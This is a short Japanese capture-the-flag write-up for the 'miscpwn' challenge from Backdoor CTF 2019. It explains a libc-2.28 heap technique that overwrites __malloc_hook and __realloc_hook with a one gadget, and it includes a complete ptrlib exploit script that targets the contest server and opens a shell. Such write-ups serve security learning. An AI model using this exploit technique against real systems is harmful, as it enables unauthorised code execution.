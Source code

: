 # [pwn 405pts] miscpwn - Backdoor CTF 2019
64ビットバイナリで、全部有効です。
```
$ checksec -f miscpwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               2       miscpwn
```
この問題は競技中に（私は参加していませんでしたが）お友達から解いて〜って連絡が来て解いた問題です。任意サイズmallocできてそこから指定のオフセットに0x10バイト書き込めるという、どこぞのHITCONで見覚えのある内容になっていますが、やることは全然違います。
とりあえず巨大サイズを確保してlibcに隣接させるのは一緒なのですが、プログラムの最後にmallocされるので`__malloc_hook`を書き換えます。（`_exit`が使われているのでrtldは使えません。）
ここでlibc-2.28が使われているのですが、one gadgetは2.27と似ていて`rcx == NULL`、`[rsp+0x40] == NULL`、`[rsp+0x70] == NULL`のいずれかです。とりあえず`__malloc_hook`ではone gadgetを呼び出しても条件に当てはまるものがありあせん。そこで`__malloc_hook`に`realloc`が使われるような場所を設定し、`__realloc_hook`にone gadgetを設置します。libc-2.28では`svc_run`に確実に`[rsp+0x40]`をNULLにしてreallocを呼び出してくれる箇所が存在することが知られているので、これを使って呼び出しましょう。
```python
from ptrlib import *

#"""
libc = ELF("./libc.so.6")
one_gadget = [0x50186, 0x501e3, 0x103f50]
target = 0x14900a
sock = Socket("51.158.118.84", 17004)
"""
one_gadget = [0x4f2c5, 0x4f322, 0x10a38c]
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
sock = Process("./miscpwn")
#"""

# libc leak
sock.sendlineafter(":\n", str(0x300000))
base_addr = int(sock.recvline(), 16)
libc_base = base_addr + 0x300ff0
logger.info("libc base = " + hex(libc_base))

# overwrite
offset = libc_base + libc.symbol("__realloc_hook") - base_addr
sock.sendlineafter(":\n", hex(offset)[2:])

#payload  = p64(libc_base + one_gadget[0])
#payload += p64(libc_base + target)
payload  = p64(libc_base + 0x501e3)
payload += p64(libc_base + 0x105ae0)
sock.sendafter(":\n", payload)

sock.interactive()
```

# 感想
まさに知っていたら解けるmiscpwnですね。
